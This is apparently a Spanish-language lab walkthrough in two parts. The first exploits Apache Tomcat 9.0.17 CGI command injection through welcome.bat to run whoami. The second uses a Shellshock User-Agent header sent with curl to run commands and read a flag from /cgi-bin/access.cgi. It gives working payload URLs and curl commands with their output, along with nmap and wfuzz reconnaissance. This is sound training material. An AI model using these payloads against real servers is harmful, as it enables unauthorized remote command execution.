 # Laboratorio: Tomcat CGI 🐱‍👓

1. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    <img src="./assets/TomcatCGI/01-Ports.PNG">
</p>

---

2. Ahora hacemos un escaneo para conocer las versiones y los servicios que se ejecutan en todos los puertos
* `-nmap -sCV -p[Puertos] [IP] -oN versions`

**Output**
```java
<SNIP>
8080/tcp  open  http          Apache Tomcat 9.0.17
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.17
<SNIP>
```

---

3. Si vistamos la siguiente **URL** veremos que el directorio `cgi` existe, a pesar de que al fuzzearlo nos aparezca con un código de estado `404`
* **URL:** `http://10.129.205.30:8080/cgi/welcome.bat`
**Output**
```
Welcome to CGI, this section is not functional yet. Please return to home page
```

---
4. Ahora ejecutaremos el comando `whoami`, (Con la ruta absoluta, ya que en las variables de entornos no está setteado ningún **PATH**)
* **URL:** `http://10.129.205.30:8080/cgi/welcome.bat?&set`
```xml
<SNIP>
PATH_INFO=
<SNIP>
```

* **URL:** `http://[IP]:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe`
* **Output**
```python
Welcome to CGI, this section is not functional yet. Please return to home page.
feldspar\omen
```

---

# Laboratorio: TomcatCGI ShellShock ⚡🛡

1. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    <img src="./assets/TomcatCGI/02-Ports.PNG">
</p>

---

2. Lo que haremos ahora es buscar por archivos con extensiones `.sh` `.cmd` `.cgi` `.pl` `.bat` en el direcotorio **`/cgi-bin`**
* `wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,cgi-pl-sh http://[IP]/cgi-bin/FUZZ.FUZ2Z`

* **Output**
```bash
000002206:   200        0 L      0 W        0 Ch        "access - cgi"
```

---

3. Ahora usaremos **cURL** para ejecutar comandos
* `curl -H "User-Agent: () { :; }; echo; echo; /usr/bin/whoami" http://[IP]/cgi-bin/access.cgi`

**Output**
```
www-data
```

---

4. Leemos la **flag** 🏴
* Si queremos listar contenido usamos `/usr/bin/ls`

* `curl -H "User-Agent: () { :; }; echo; echo; /usr/bin/cat flag.txt" http://[IP]/cgi-bin/access.cgi`

**Output**
```
Sh3ll_Sh0cK_123
```